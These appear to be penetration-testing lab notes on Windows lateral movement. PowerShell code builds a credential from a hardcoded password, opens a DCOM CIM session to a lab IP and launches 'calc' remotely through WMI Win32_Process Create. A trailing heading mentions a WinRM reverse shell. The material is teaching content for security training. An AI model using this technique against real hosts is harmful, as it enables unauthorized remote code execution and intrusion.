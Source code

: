 # To do that, we will first store the username and password in variables. Then, we will secure the password via the ConvertTo-SecureString cmdlet. Finally, we'll create a new PSCredential object with the username variable and secureString object
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

# Now that we have our PSCredential object, we need to create a Common Information Model (CIM) via the _New-CimSession cmdlet.

# To do that, we'll first specify DCOM as the protocol for the WMI session with the New-CimSessionOption cmdlet on the first line. On the second line, we'll create the new session, New-Cimsession against our target IP, using -ComputerName and supply the PSCredential object (-Credential $credential) along with the session options (-SessionOption $Options). Lastly, we'll define 'calc' as the payload to be executed by WMI.
```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.195.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

# As a final step, we need to tie together all the arguments we configured previously by issuing the Invoke-CimMethod cmdlet and supplying Win32_Process to the ClassName and Create to the MethodName. To send the argument, we wrap them in @{CommandLine =$Command}.

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
...
ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     1984           0 192.168.195.73
...

# Create Revshell with WinRM methods 

